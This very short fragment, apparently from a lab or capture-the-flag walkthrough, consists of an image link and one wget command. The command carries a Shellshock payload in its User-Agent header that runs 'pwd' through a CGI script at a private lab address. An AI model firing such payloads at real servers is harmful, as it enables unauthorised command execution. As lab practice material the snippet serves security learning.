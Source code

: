 

wget -U "() { test;};echo \"Content-type: text/html\"; echo; echo; pwd;" http://10.10.10.54:8000/cgi-bin/board
